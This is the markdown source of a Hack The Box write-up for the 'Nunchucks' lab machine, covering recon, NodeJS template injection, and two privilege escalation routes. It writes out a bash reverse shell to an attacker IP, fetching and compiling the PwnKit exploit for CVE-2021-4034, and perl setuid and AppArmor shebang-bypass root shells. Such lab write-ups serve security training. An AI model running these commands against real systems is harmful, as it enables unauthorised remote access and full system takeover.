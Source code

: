 ```yaml
---
layout: single
title: Nunchucks - Hack The Box
excerpt: "Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary AppArmor profile while executing scripts that include the shebang of the profiled application."
date: 2025-06-01
classes: wide
header:
  teaser: /img2/nunchucks.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - NodeJS SSTI (Server Side Template Injection)
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - AppArmor Profile Bypass (Privilege Escalation) (OPTION 2)
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.122
```

![](/img2/Pasted%20image%2020250601184103.png)

- Add domain to local DNS

```bash
echo "10.10.11.122 nunchucks.htb" >> /etc/hosts
```

- Wfuzz to find subdomains

```bash
wfuzz -c --hw=2271 -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.nunchucks.htb" https://nunchucks.htb/
```

![](/img2/Pasted%20image%2020250601194255.png)

- Add subdomain to local DNS

```bash
echo "10.10.11.122 store.nunchucks.htb" >> /etc/hosts
```

## Exploitation

- SSTI Injection

![](/img2/Pasted%20image%2020250601194519.png)

https://ctftime.org/writeup/34053

![](/img2/Pasted%20image%2020250601212336.png)

- Send reverse shell

```bash
echo -n "/bin/bash -i >& /dev/tcp/10.10.16.7/9000 0>&1" | base64
```

![](/img2/Pasted%20image%2020250601212739.png)

![](/img2/Pasted%20image%2020250601212819.png)


```bash
nc -nlvp 9000
```

## Post-exploitation (OPTION 1)

- Find SUID

```bash
find / -perm -4000 2>/dev/null 
```

![](/img2/Pasted%20image%2020250601213525.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Find Capabilities

```bash
getcap -r / 2>/dev/null
```

![](/img2/Pasted%20image%2020250601224157.png)

- Try to take advantage of capabilitie

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

> Maybe, we have a restriction, so we can take advantage of wrong shebang in bash script.

- Exploit shebang perl bug

```bash
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0); 
exec "/bin/sh"; 
```

```bash
chmod +x exploit.sh
./exploit.sh
```


![](/img2/Pasted%20image%2020250601213353.png)